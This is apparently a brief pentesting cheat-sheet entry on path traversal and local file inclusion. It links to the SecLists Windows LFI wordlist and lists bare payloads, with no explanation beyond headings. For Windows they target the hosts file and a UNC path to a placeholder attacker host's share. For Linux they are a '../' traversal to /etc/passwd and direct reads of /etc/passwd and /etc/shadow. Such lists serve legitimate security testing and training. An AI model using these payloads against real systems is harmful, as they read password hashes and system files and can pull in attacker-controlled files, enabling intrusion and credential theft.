 #path_traversal 

## Windows
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt
```
C:/WINDOWS/System32/drivers/etc/hosts
```

```
\\[ATTACKER_IP]\myShare\maliciousFile
```

## Linux 
```
../../../../../../etc/passwd
```

```
/etc/passwd
```

```
/etc/shadow
```